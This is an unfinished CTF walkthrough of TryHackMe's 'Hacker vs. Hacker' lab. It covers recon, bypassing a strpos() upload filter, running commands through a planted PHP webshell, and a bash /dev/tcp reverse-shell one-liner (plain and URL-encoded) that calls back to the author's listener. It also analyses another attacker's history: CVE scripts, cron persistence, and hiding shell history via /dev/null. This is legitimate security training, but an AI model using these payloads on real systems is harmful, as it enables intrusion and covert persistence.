










# TryHackMe: Hacker vs. Hacker

    



## Room Info

| Field | Value |
|---|---|
| **Room** | Hacker vs. Hacker |
| **Platform** | TryHackMe |
| **Difficulty** | Medium |
| **Category** | Web Exploitation → Post-Exploitation Forensics |
| **OS** | Linux (Ubuntu) |
| **Tools Used** | nmap, gobuster, Firefox (view-source), netcat |
| **Skills Tested** | File upload filter bypass, PHP webshell abuse, reverse shell, reading another attacker's tracks |

**Premise:** the target server is described as already compromised — the goal isn't just to get in, but to get in *and* evade or work around whatever the previous attacker (the "other hacker" in the room's title) already did to the box, e.g. patches, persistence, or countermeasures they left behind.

> **Status: in progress.** This writeup covers initial access through to landing a shell as `www-data` and discovering `lachlan`'s `user.txt` plus their `.bash_history`, which shows another attacker already active on this machine. Will be continued once I pick this back up — the CVE-patch/persistence/cron angle from `lachlan`'s history still needs to be chased down.

---

## Concept Glossary

**File upload filter bypass via `strpos()`** — A common (and broken) way developers try to restrict uploads to a single file type is checking whether the filename *contains* a certain substring, using something like PHP's `strpos($filename, ".pdf")`. The problem: `strpos` just checks for the substring anywhere in the string — it doesn't care where. A filename like `shell.pdf.php` still contains `.pdf`, so it passes the check, but the file is saved with a `.php` extension and the web server will still execute it as PHP. The fix should be checking the *actual* file extension (e.g. with `pathinfo()` and a strict whitelist), not doing a substring search.

**PHP webshell** — A PHP file that accepts a parameter (commonly `?cmd=`) and passes it straight into a command-execution function like `system()`, `exec()`, or `shell_exec()`. Once uploaded to a web-accessible directory, visiting it with `?cmd=whoami` runs arbitrary OS commands with the web server's privileges — in this case `www-data`, the low-privilege account Apache/PHP normally runs as.

**Upgrading command execution to a reverse shell** — Running commands one at a time through `?cmd=` is slow and awkward (no persistent session, no easy file transfer, no tab completion). The standard move is to use that limited command execution to trigger a *reverse shell*: a one-liner that makes the target connect back out to a listener on the attacker's machine (`nc -nlvp <port>`), handing over an interactive shell. URL-encoding the payload (spaces, `&`, `>` etc.) is necessary because those characters have special meaning in a URL/query string and would otherwise break the request or get interpreted early.

**Reading `.bash_history` as forensics, not just loot** — Normally in a CTF, `.bash_history` is just a shortcut to find hints or leftover credentials. Here it's doing double duty: it's effectively a **timeline of the other attacker's actions** on the box — what they ran, in what order, which is exactly the kind of artifact a real incident responder would pull first when scoping a live compromise.

**`ls -sf /dev/null /home/lachlan/.bash_history`** — This is an anti-forensics trick: symlinking (`-s`) `.bash_history` to `/dev/null` means every future command gets silently discarded instead of logged, so the shell keeps working normally but stops recording history from that point on. Recognizing this pattern matters because it tells you the visible history is *incomplete by design* — there's a point after which the other hacker intentionally went dark.

---

## 1. Recon

### 1.1 Nmap scan

**Command:**
```bash
nmap -sV -O 10.130.165.107
```

**Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```



**Why this step:** Standard opener — map the surface before committing to an approach. Only SSH and HTTP are open, and with no creds yet, HTTP (port 80) is the only usable entry point, so web enumeration is next.

---

## 2. Analysis

The room description explicitly says the server is *already* compromised — the task is dual: get in myself, and expect to run into evidence of (or active countermeasures from) whoever got there first. That reframes ordinary recon: anything unusual found later (locked-down files, patched vulnerabilities, weird cron jobs) isn't a red herring, it's part of the story.

With only port 80 realistically attackable, the plan was standard web-app methodology: check page source for anything obvious, then directory-bust for hidden paths/functionality.

---

## 3. Exploitation

### 3.1 Reading the upload form source

**URL:** `view-source:http://10.130.165.107/upload.php`

**Relevant source:**
```php
<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

The page itself even taunts this directly: *"Hacked! If you dont want me to upload my shell, do better at filtering!"* — a signature left by whoever compromised this box before me, confirming the upload form is the intended (and already-exploited) entry point.



**Why this matters:** The filter only checks that `.pdf` appears *somewhere* in the filename via `strpos()` — not that the file actually ends in `.pdf`. This is the exact filter-bypass weakness described in the Concept Glossary above: a filename like `shell.pdf.php` satisfies the check but still executes as PHP.

### 3.2 Directory enumeration

**Command:**
```bash
gobuster dir -u http://10.130.165.107/ -w /usr/share/wordlists/dirb/big.txt
```

**Key findings:**
```
cvs      (Status: 301) [Size: 314] → http://10.130.165.107/cvs/
css      (Status: 301) [Size: 314]
dist     (Status: 301) [Size: 315]
images   (Status: 301) [Size: 317]
```



**Why this step:** `upload.php`'s source confirmed uploads land in a `cvs/` folder (`$target_dir = "cvs/"`), but I still needed to confirm that directory is reachable/enumerable rather than assuming it. Gobuster confirms `cvs/` exists and returns a 301 (redirect to trailing slash) rather than a 404 — real and browsable.

### 3.3 Confirming directory listing is off (expected) and finding the existing shell

**`http://10.130.165.107/cvs/`:**
```
Directory listing disabled
```


**Why this isn't a dead end:** No directory listing just means I can't *browse* the folder — it doesn't mean files inside aren't reachable directly if I know (or guess) the filename. Given the room's premise (another hacker already uploaded something here), the natural next move was guessing a plausible shell filename that fits the `.pdf`-bypass pattern described in the source code itself.

**`http://10.130.165.107/cvs/shell.pdf.php`:**
```
boom!
```


This confirms a webshell — named exactly the way the vulnerable filter would allow — is already sitting in `cvs/`, left behind by the previous attacker (or intentionally placed by the room as the "in" for this challenge).

### 3.4 Confirming command execution

**URL:** `http://10.130.165.107/cvs/shell.pdf.php?cmd=id`

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
boom!
```


**Why this confirms exploitation:** The `?cmd=` parameter is being passed directly to a command-execution function server-side — `id` returning real output as `www-data` (Apache's low-privilege user) proves arbitrary command execution, not just file existence.

### 3.5 Upgrading to a reverse shell

**Payload (URL-decoded):**
```bash
bash -c 'bash -i >& /dev/tcp/192.168.164.247/4444 0>&1'
```

**As sent (URL-encoded) via the `?cmd=` parameter:**
```
?cmd=bash -c 'bash -i >%26 %2Fdev%2Ftcp%2F192.168.164.247%2F4444 0>%261'
```


**Listener:**
```bash
nc -nlvp 4444
```

**Result:**
```
listening on [any] 4444 ...
connect to [192.168.164.247] from (UNKNOWN) [10.128.129.63] 34542
www-data@b2r:/var/www/html/cvs$
```


**Why this step:** `?cmd=id` proved command execution but that's a one-shot, non-interactive primitive — no working directory persistence, no easy follow-up commands. This `bash -i >& /dev/tcp/...` one-liner opens an interactive Bash session and redirects its input/output/error over a raw TCP socket back to my listener, turning single blind commands into a real interactive shell. `%26` and `%2F` are URL-encoded `&` and `/` — required so the query string doesn't break on the raw special characters.

*(Note: the reverse shell connected from `10.128.129.63`, a different IP than the initial `10.130.165.107` nmap target — the TryHackMe instance had refreshed/restarted between sessions, which is normal and doesn't affect anything already exploited.)*

### 3.6 Locating and reading user.txt

**Commands:**
```bash
find / -name "user.txt" 2>/dev/null
cat /home/lachlan/user.txt
```

**Output:**
```
/home/lachlan/user.txt
```


**Q: user.txt**
**A: Not captured** — need to re-check/rescreenshot this value on the next session; wasn't clearly recorded.

---

## 4. In Progress — Evidence of the Other Hacker

**Command:**
```bash
cat /home/lachlan/.bash_history
```

**Output:**
```
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "[REDACTED]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```


**What this tells me so far:**
- `./cve.sh` — the other attacker likely used a scripted CVE exploit to get their own initial foothold or escalate privileges as `lachlan`.
- `./cve-patch.sh` — they then **patched the same vulnerability behind themselves**, a classic "close the door I came through" move to stop anyone else (including legitimate admins) from using the same path in.
- `vi /etc/cron.d/persistence` — strong signal they planted a cron-based persistence mechanism, which I haven't inspected yet.
- `echo -e "[REDACTED]" | passwd` — they changed a password non-interactively (value is blurred in my screenshot, need to recheck).
- `ls -sf /dev/null /home/lachlan/.bash_history` — anti-forensics: symlinked `.bash_history` to `/dev/null` so everything after this point stops being logged, meaning **this history is intentionally incomplete**.

**Not yet done (picking this up next session):**
- Inspect `/etc/cron.d/persistence` directly to see what the planted backdoor actually runs.
- Check what `cve.sh` / `cve-patch.sh` actually target (likely still present on disk somewhere — worth locating and reading).
- Figure out whether the "evade their countermeasures" part of the room means working around `cve-patch.sh` specifically, or using the cron persistence as an alternate way in/up.
- Privilege escalation to root, and `root.txt`.

*(To be continued.)*

---

## Skills Demonstrated (so far)

`Web Enumeration` · `File Upload Filter Bypass` · `PHP Webshell Exploitation` · `Reverse Shell Delivery via URL-Encoded Payload` · `Post-Exploitation Artifact Analysis` · `Recognizing Anti-Forensics Techniques`

---

## References

- [TryHackMe — Hacker vs. Hacker](https://tryhackme.com/room/hackervshacker)
- [PayloadsAllTheThings — Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
